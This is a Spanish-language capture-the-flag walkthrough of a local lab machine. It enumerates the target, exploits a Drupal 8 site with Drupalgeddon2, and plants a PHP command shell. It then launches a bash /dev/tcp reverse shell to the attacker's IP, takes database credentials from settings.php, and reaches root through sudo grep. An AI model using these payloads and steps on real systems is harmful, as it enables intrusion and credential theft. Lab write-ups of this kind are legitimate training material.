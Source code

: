 ## FASE DE ENUMERACIÓN

IP_victima-->172.17.0.2

Vamos a realizar un scaneo de los puertos que tiene abiertos, así como de los servicios y versiones que corren en ellos:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open -oN puertosYservicios 172.17.0.2
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25
|_http-title: 403 Forbidden
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2
```
Solo el puerto 80 con una versión apache con alguna que otra vulnerabilidad, haciendo unas pruebas rápidas creo que están sanitizadas

Accedemos a la página y vemos un error 403... con esto, sin nada en el código fuente vamos a hacer un scan de rutas:

```bash
 gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.17.0.2/' -x php,html,txt,
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/drupal               (Status: 301) [Size: 309] [--> http://172.17.0.2/drupal/]
/.                    (Status: 403) [Size: 285]
/.html                (Status: 403) [Size: 290]
/server-status        (Status: 403) [Size: 298]
Progress: 1102730 / 1102735 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un CMS drupal..interesante, vamos a ver si logramos saber la versión, vamos a mirar las cabeceras:
```bash
 curl -I http://172.17.0.2/drupal/
```
```
X-Generator: Drupal 8 (https://www.drupal.org)
```
Versión 8...y ahora hablo de memoria pereo creo que en la versión 8 ya no se podia saber dentro de ella cual era así pues vamos a buscar un exploit para la versiñon 8

```
https://www.exploit-db.com/exploits/44449
```
```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
```
drupalgedón...suena a muerte y destrucción del CMS drupal.

## ACCESO

1- En mi caso abrí nano para crear un archivo con el nombre drupalgeddon2.rb
  ```
  nano drupalgeddon2.rb
  ```
2-Ccopiar e script en la parte superior derecha del mismo donde pone "Copy"

3-pegar en el nano con "ctrl"+shift (la tecla de encima del ctrl izq con una flecha hacia arriba)+V

4-Guardar ctrl+O

5-Salir ctrl+X

es un script en ruby, instalo una gema que pide "require 'highline/import'" por si va a darme problemas:

```
 sudo gem install highline
```

y....a probar el script:

```bash
 ruby drupalgeddon2.rb http://172.17.0.2/drupal/
```

```
[i] Fake PHP shell:   curl 'http://172.17.0.2/drupal/shell.php' -d 'c=hostname'
```

desde aquí podemos ejecutar comando:

```
bf7c7f570628>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

intenté lanzarme una reverseshell y no reconoce algunos caracteres, como no estoy seguro si es porque hay que encodear, se que me ha creado un archivo en la ruta "http://172.17.0.2/drupal/shell.php"
asi que lo voy a leer desde el drupalgedon2:

```
bf7c7f570628>> cat shell.php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```
vale si enviamos una consulta al parametro "c" ejecutamos un comando en el sistema.... jeje

vamos a 
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
cogemos la revershell de nc y la ajustamos un poco quedando asi:

```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/445 0>&1'
```

-172.17.0.1 es mi IP


-445 el puerto que voy a poner a la escucha

me voy a 
```bash
https://www.urlencoder.org/
```
URLencodeo la rev y me queda así:
```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27%0A
```
nos ponemos a la escucha en el puerto 445:
```
 sudo nc -lvnp 445
```
ahora nos vamos a la página web y vamos a usar el parametro c y nuestra rev:

```bash
http://172.17.0.2/drupal/shell.php?c=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27%0A
```

y estamos dentro!!!


## FASE ESCALADA DE PRIVILEGIOS

Miramos con "id" si estamos en algún grupo priviegiado:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
nada

un cat al /etc/passwd para ver los usuarios:

 ```bash
cat /etc/passwd | grep sh$
```

```
root:x:0:0:root:/root:/bin/bash
ballenita:x:1000:1000:ballenita,,,:/home/ballenita:/bin/bash
```

con "sudo -l" nos pide contraseña que no tenemos

En drupal suelen guardarse algunas credenciales en un archivo llamado "settings.php"
lo buscamos:

```bash
find / -type f -name settings.php 2>/dev/null
```
```
/var/www/html/drupal/sites/default/settings.php
```

ya lo localizamos, vamos a ver que permisos tiene:
```
ls -la /var/www/html/drupal/sites/default/settings.php
-r--r--r-- 1 www-data www-data 32133 Oct 16  2024 /var/www/html/drupal/sites/default/settings.php
```

podemos leerlo, vamos a hacer una búsqueda rápida:

```bash
cat settings.php | grep -A 10 'databases'
```

en algún sitio podemos leer:

```
* @code
 * $databases['default']['default'] = array (
 *   'database' => 'database_under_beta_testing', // Mensaje del sysadmin, no se usar sql y petó la base de datos jiji xd
 *   'username' => 'ballenita',
 *   'password' => 'ballenitafeliz', //Cuidadito cuidadín pillin
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
 *   'prefix' => '',
 *   'collation' => 'utf8mb4_general_ci',
 * );
 * @endcode
--
$databases = array();
```
```
usuario:ballenita

password:ballenitafeliz
```

Además ese comentario de "Cuidadito cuidadín pillin" me da buena vibra xD

intentamos pivotar al user ballenita:
```
su ballenita
```
metemos el password--->ballenitafeliz

y ya somos ballenita¡¡¡¡


Hacemos un sudo -l:

```bash
sudo -l
```

```
(root) NOPASSWD: /bin/ls, /bin/grep
```


pudiendo listar con ls siendo root todo el sistema:
```bash
sudo -u root /bin/ls /root
```
```
secretitomaximo.txt
```
y con grep, vamos a 
```bash
https://gtfobins.github.io/gtfobins/grep/#sudo
```
```
LFILE=file_to_read
sudo grep '' $LFILE
```

pues al lio, en vez de guardar la ruta en una variable LFILE y luego reclamarla lo hago directo:

```bash
sudo -u root /bin/grep '' /root/secretitomaximo.txt
```
```
nobodycanfindthispasswordrootrocks
```

veamos si es el password de root:

```bash
su root
```
introducimos el password:nobodycanfindthispasswordrootrocks

Ya somos root¡¡¡¡





